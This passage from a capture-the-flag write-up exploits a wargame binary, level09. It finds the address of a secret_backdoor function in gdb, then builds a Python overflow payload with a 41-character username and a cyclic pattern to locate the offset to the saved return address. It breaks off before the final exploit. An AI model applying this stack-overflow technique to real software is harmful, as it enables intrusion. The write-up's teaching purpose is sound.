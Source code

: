 So, it's off, let's just open gdb and get the address of the `secret_backdoor`
function, we will need to run the binary at least once so it gets loaded,
and then we can check the base address:
```bash
# Notice that before running all the addresses will be less than 0x1000
# This is because pages are the things being randomised in memory,j
# which have a standard size of 0x1000
(gdb) p/x &secret_backdoor
$5 = 0x88c

# Run and get the address after
(gdb) r
# ... make it end ...
(gdb) p/x &secret_backdoor
$6 = 0x55555555488c
```

That's the `secret_backdoor` address, cool.

Now let's start with the actual explotation, we will force that second `strncpy`
to copy __a lot__ of bytes, so for that we need a username of 41 character,
so the last one gets copied into `buff[180]`.

And for the message, let's just send a pattern to calculate the offset:
```bash
# Payload without pattern so it's readable
# python -c "print 'A' * 40 + '\xFF' + '\n' + 'PATTERN' + '\n'" > /tmp/payload
python -c "print 'A' * 40 + '\xFF' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag' + '\n'" > /tmp/payload

gdb -q ./level09

r < /tmp/payload

# Output
Program received signal SIGSEGV, Segmentation fault.
0x000000000000000a in ?? ()
# Registers
info registers
rbp            0x6741356741346741	0x6741356741346741
```

The `rbp` has something, `8` bytes that are at offset `192`, and our pattern
was only `200` bytes long, we will need a bigger pattern to reach `RIP`:

```bash
python -c "print 'A' * 40 + '\xFF' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A' + '\n'" > /tmp/payload

gdb -q ./level09

# Output
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()

# Print rsp (g == 64 bits, for 32 bits use a word -> w == 32 bits)
# Although for a pattern 32 bits also do the work, we don't need more
(gdb) x/gx $rsp
0x7fffffffe598: 0x4138674137674136
```
